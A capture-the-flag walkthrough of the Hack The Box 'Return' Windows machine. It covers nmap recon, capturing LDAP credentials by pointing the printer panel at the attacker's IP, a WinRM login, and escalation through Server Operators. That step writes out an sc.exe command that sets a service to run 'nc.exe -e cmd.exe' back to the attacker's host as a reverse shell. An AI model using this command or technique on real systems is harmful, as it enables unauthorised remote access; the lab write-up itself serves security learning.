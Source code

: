 ```yaml
---
layout: post
title: "HTB: Return"
---
```


Return is an easy Windows box on the Hack the Box platform that focuses on abusing printer web admin panel on an active directory domain to get user LDAP credentials. Use them to log in using Evil-WinRM and discover some interesting privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege**. As a bonus the account is in the **Server Operators** group, which allows it to modify, start, and stop services. Which can be easily used to get a shell as SYSTEM.

# Recon

## nmap

```shell-session
sudo nmap -sC -sV -v -oA nmap_scan/nmap_results 10.129.95.241
```

nmap finds plenty of open ports, most interesting at the moment being ports **80** and **139,445** for **SMB**

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-30 09:38:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
52638/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m32s
| smb2-time: 
|   date: 2024-10-30T09:39:39
|_  start_date: N/A
```

## SMB - TCP 445

Dead end at the moment, maybe we will come back when we find some credentials.

![SMB](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-10-52.png)

## Web - TCP 80

The website is a 'HTB Printer Admin Panel'
![Web](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-11-07.png)

# Shell as svc-printer

On the 'Settings' tab ther eis pre-filled form
![Web2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-11-18.png)

## Burp 

When using burp to check the POST request only one argument is send:

```
ip=printer.return.local
```
The other three fields in the form are not.
User can only change the Server Address ('ip'), and not port, username or password.

## Request

If we change the ip to our tun0 IP and start listener on port 389 we should catch some response.

![Request](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-11-42.png)
![Request2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-11-58.png)

...and it’s trying to authenticate so we have username and password.

## WinRM

Credentials happen to work for WinRM, so we can get a shell usin Evil-WinRM

![WinRm_shell](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-25-07.png)

and get the user flag

![WinRm_shell](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-31-22.png)

# Privilege Escalation

## Groups and Privileges

First of all, let's check our privileges,

![priv](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-50-08.png)

and also groups.

![priv2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-50-21.png)

A lot can be done with privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege** but the **Server Operators** group is quite a catch.

## Reverse shell

Server Operators can modify, start, and stop services, we can abuse this by having it run nc64.exe to give us a reverse shell.

Upload the nc.exe 

![nc](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-52-04.png)

Now modify a service binary path, stop and restart the service:

```shell-session
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.45 4444"
```
![sh](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-58-25.png)

Start listener and as soon as we start the service again we catch the shell.

![sh2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-58-54.png)

![sh2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-58-00.png)

~
